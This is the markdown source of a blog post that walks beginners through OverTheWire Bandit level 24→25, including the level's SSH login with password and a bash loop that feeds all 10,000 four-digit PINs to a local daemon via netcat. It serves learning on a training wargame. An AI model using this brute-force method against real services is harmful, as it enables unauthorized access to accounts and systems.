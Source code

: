 ```yaml
---
layout: post
title: "Bandit Level 24 → Level 25 | OverTheWire"
subtitle: "Learn linux command by playing Bandit wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 24 → Level 25. In this level you will learn how to bruteforce password and connect to a remote machine on a port. The passwords are hidden, so you have to find the passwords for next level yourself."
author: "Programmercave"
header-img: "/assets/Bandit-Overthewire/overthewire_poster.jpg"
tags:  [Linux, OverTheWire-Bandit, CTF]
date: 2019-12-26
---
```


Learn linux command by playing [Bandit](https://overthewire.org/wargames/bandit/) wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 24 → Level 25. 

In this level you will learn how to bruteforce password and connect to a remote machine on a port. 

The passwords are hidden, so you have to find the passwords for next level yourself.

![Bandit OverTheWire]({{ site.url }}/assets/Bandit-Overthewire/overthewire_poster.jpg){:class="img-responsive"}

### Previous Post

[Bandit Level 0 to Level 3]({{ site.url }}/blog/2019/12/21/Bandit-Level-0-to-Level-5-OverTheWire)<br/>
[Bandit Level 4 to Level 8]({{ site.url }}/blog/2019/12/22/Bandit-Level-4-to-Level-9-OverTheWire)<br/>
[Bandit Level 9 to Level 11]({{ site.url }}/blog/2019/12/24/Bandit-Level-9-to-Level-12-OverTheWire)<br/>
[Bandit Level 12 → Level 13]({{ site.url }}/blog/2019/12/24/Bandit-Level-12-Level-13-OverTheWire)<br/>
[Bandit Level 13 to Level 15]({{ site.url }}/blog/2019/12/24/Bandit-Level-13-to-Level-16-OverTheWire)<br/>
[Bandit Level 16 to Level 18]({{ site.url }}/blog/2019/12/24/Bandit-Level-16-to-Level-19-OverTheWire)<br/>
[Bandit Level 19 to Level 20]({{ site.url }}/blog/2019/12/25/Bandit-Level-19-to-Level-20-OverTheWire)<br/>
[Bandit Level 21 to Level 22]({{ site.url }}/blog/2019/12/25/Bandit-Level-21-to-Level-23-OverTheWire)<br/>
[Bandit Level 23 → Level 24]({{ site.url }}/blog/2019/12/25/Bandit-Level-23-Level-24-OverTheWire)

## [Bandit Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)

### Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

### Solution : 

Command to connect remote host : `ssh bandit24@bandit.labs.overthewire.org -p 2220` password is `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ` .

We can connect on port 30002 in a same way as we have done in level 20. We also have to pass password for current level and the 4 digit pin.The command is
```
nc localhost 30002  UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ****
```

To brute-force pin we wil write a shell script in */tmp/mydir123* directory.
 
The script is
``` 
#!/bin/bash
for i in {0000..9999}
do 
	echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
```

The name of the script is *bruteforcescript.sh* and file *combinations.txt* will store all combinations of 4 digit number with password for bandit20. First we have to make bruteforcescript.sh executable using command 
```
chmod 700 bruteforcescript.sh
./bruteforcescript.sh > combinations.txt
```

And the final command is
```
nc localhost 30002 < combinations.txt
```
The password for the next level is `****` .

![Bandit Level 24 25]({{ site.url }}/assets/Bandit-Overthewire/bandit_l2425_terminal.jpg){:class="img-responsive"}

Reference : [https://unix.stackexchange.com/questions/432904/brute-force-4-digit-pin-with-pass-using-shell-script](https://unix.stackexchange.com/questions/432904/brute-force-4-digit-pin-with-pass-using-shell-script)<br/>
[https://skyenet.tech/brute-force-password-attacking/](https://skyenet.tech/brute-force-password-attacking/)

### Next Post

[Bandit Level 25 to Level 26]({{ site.url }}/blog/2019/12/26/Bandit-Level-25-to-Level-26-OverTheWire)<br/>
[Bandit Level 27 to Level 31]({{ site.url }}/blog/2019/12/26/Bandit-Level-27-to-Level-31-OverTheWire)<br/>
[Bandit Level 32 → Level 33]({{ site.url }}/blog/2019/12/26/Bandit-Level-32-Level-33-OverTheWire)<br/>

### Other Wargames
[Leviathan Wargame from OverTheWire All Level Solutions]({{ site.url }}/blog/#overthewire-leviathan)<br/> 
[Krypton Wargame from OverTheWire All Level Solutions]({{ site.url }}/blog/#overthewire-krypton)<br/>



